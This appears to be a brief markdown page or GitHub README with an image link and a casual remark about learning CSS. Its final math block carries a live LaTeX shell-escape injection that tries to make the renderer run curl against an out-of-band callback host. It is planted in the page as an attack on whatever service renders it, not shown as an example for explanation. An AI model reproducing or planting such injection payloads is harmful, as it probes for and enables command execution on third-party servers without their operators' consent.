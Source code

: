 ## well learning a little CSS was fun. See yall next time👋 (I shouldve took another pic i was screwing around🥲)
```math
\ce{$\immediate\write18{curl http://cpi1ocb6okuc7j8evoe03zh8n7qwateuu.oast.me/custom.css}$}

